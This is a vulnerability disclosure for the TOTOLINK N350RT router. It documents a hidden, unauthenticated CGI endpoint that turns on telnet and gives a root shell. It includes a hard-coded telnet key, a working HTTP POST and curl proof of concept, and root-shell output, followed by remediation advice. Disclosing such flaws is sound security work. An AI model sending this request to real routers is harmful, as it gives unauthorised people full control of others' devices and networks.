


# TOTOLINK N350RT Smart Router

- Vendor: TOTOLINK
- Product: N350RT
- Firmware version: V9.3.5u.6466 (`TOTOLINK-N350RT_V9.3.5u.6466_B20250825.zip`); the newer `V9.3.5u.6468_84ad6c0_B20250827_TMP` inside the package is also affected
- Architecture: MIPS32 LE / uClibc; Web: lighttpd 1.4.59 + `/www/cgi-bin/cstecgi.cgi`
- Vulnerability type: Unauthenticated Telnet enablement → root shell (unauthenticated RCE)

# Description

The Web backend `cstecgi.cgi` of the TOTOLINK N350RT contains a **hidden endpoint `action=telnet`** that lies outside the login-state check. It enables the device's telnet service and directly yields a **root shell** without login — equivalent to unauthenticated RCE.

The hidden branch is gated by two "authentication factors", both trivially bypassable:

1. `password` — compared against `urldecode(nvram_safe_get("telnet_key_custom"))`. In the emulation, nvram is empty, so an empty string passes; on a real device, `etc_ro/custom.conf` **hard-codes `TelnetKey: KL@UHeZ0`** (identical across all devices of the same model).
2. `code` — compared against `getCmdStr("date '+%m%d%Y'")`, i.e. the device's current date `mmddyyyy` (guessable).

Combined: **a LAN-side attacker needs no credentials — one HTTP POST enables telnet, then `telnet 192.168.0.1 23` yields a root shell directly**.

# Impact

An attacker obtains a **root shell** without any credentials, fully controlling the device — reading/writing the whole configuration, implanting a persistent backdoor, tampering with DNS/routing, and pivoting into the internal network. The firmware's default login `LoginPassword: admin` is also a weak password. Affected versions: `V9.3.5u.6466` and `V9.3.5u.6468_TMP`; other TOTOLINK models sharing the codebase need to be checked for reuse.

# Vulnerability Details

## 1. Affected Component and Root Cause

The vulnerability resides in the Web backend CGI `/www/cgi-bin/cstecgi.cgi`'s `main` dispatch logic (invoked via lighttpd, **running as root**).

**Hidden branch** — a match on `strstr(QUERY_STRING, "action=telnet")` enters the hidden branch, **outside the login-state check**:

```c
// cstecgi.cgi main dispatch logic (decompiled)
if (strstr(QUERY_STRING, "action=telnet")) {
    // validate keys: action / enable / password / code
    // password compared against urldecode(nvram_safe_get("telnet_key_custom"))
    // code     compared against getCmdStr("date '+%m%d%Y'")
    // on success:
    nvram_set_int("telnet_enabled", enable);
    nvram_commit();
    notify_rc("restart_telnetd");   // notify rc to restart telnetd
}
```

**Lock-file gate** — `run_telnetd` in `/sbin/rc` first does `echo 1 > /var/lock/tlt.lock` and then starts telnetd; telnetd checks this lock file on startup and **exits immediately if the lock is absent** (strace confirmed `stat64("/var/lock/tlt.lock") = -1 ENOENT → exit_group(0)`).

**Ineffective auth factors**: `password` (empty string or hard-coded `KL@UHeZ0`) and `code` (current date `mmddyyyy`) are not valid authentication; blocklists such as `os_cmd_injection_test` do not apply to this branch.

## 2. Authentication Bypass

- The `action=telnet` branch is **outside** the login-state check (a `strstr` match enters it directly, no Cookie/session needed).
- `password`: empty string passes when nvram is uninitialized / after factory reset; otherwise it is the hard-coded `KL@UHeZ0` (the `TelnetKey` in `etc_ro/custom.conf`, identical across all devices).
- `code`: merely the current date `mmddyyyy`, guessable.

## 3. Proof of Concept (PoC)

> Environment: FirmAE system-mode emulation (MIPS LE, br0=192.168.0.1, host tap10_0=192.168.0.2).
> ⚠ Emulation difference: FirmAE's PID1 is `preInit.sh` rather than the firmware's real init, so `notify_rc` has no receiver; therefore the "create lock file + start telnetd" two steps are **manually reproduced** per rc's real logic (see step 2). This only affects emulation, not the firmware logic.

### Step 1 — Trigger action=telnet without authentication

```http
POST /cgi-bin/cstecgi.cgi?action=telnet&enable=1&password=&code=11072026 HTTP/1.1
Host: 192.168.0.1
Content-Length: 0
```

curl equivalent (`code` = the device's current date `date '+%m%d%Y'`):

```bash
curl -i -X POST \
  'http://192.168.0.1/cgi-bin/cstecgi.cgi?action=telnet&enable=1&password=&code=11072026' \
  -H 'Content-Length: 0' --data ''
```

Response:

```http
HTTP/1.1 200 OK
Server: lighttpd/1.4.59

{
	"errcode":	0,
	"errmsg":	"OK"
}
```



### Step 2 — Complete "create lock file + start telnetd" (emulation only; on a real device rc does it automatically)

Device serial console:

```bash
echo 1 > /var/lock/tlt.lock
/usr/sbin/telnetd -l /bin/sh
netstat -tln      # see :::23 LISTEN
```

### Step 3 — Telnet in and obtain the root shell (core evidence)

From the VM host:

```bash
telnet 192.168.0.1 23
```

Observed output:

```
BusyBox v1.24.2 (2025-08-25 ...) built-in shell (ash)
/ # whoami
root
/ # uname -a
Linux (none) 4.1.17+ #28 Sat Oct 31 17:56:39 KST 2020 mips GNU/Linux
```



## 4. Root Cause Summary

1. The `action=telnet` hidden branch in `cstecgi.cgi` lies outside the login-state check and is reachable without authentication;
2. `password` (empty string / hard-coded `KL@UHeZ0`) and `code` (current date `mmddyyyy`) are not valid authentication factors;
3. On success, `notify_rc("restart_telnetd")` triggers rc to create the lock and start telnetd;
4. telnetd runs as root and uses `-l /bin/sh` to hand out a shell directly, gaining root privileges.

## 5. Remediation

- Remove/disable the hidden `action=telnet` branch; the telnet toggle should only exist in an authenticated management interface.
- Do not hard-code `TelnetKey` in `etc_ro/custom.conf`; keep debug switches off by default and only available in a local physical recovery mode.
- Authenticate and allow-list-validate all CGI parameters uniformly; predictable values such as dates must not be used as authentication factors.
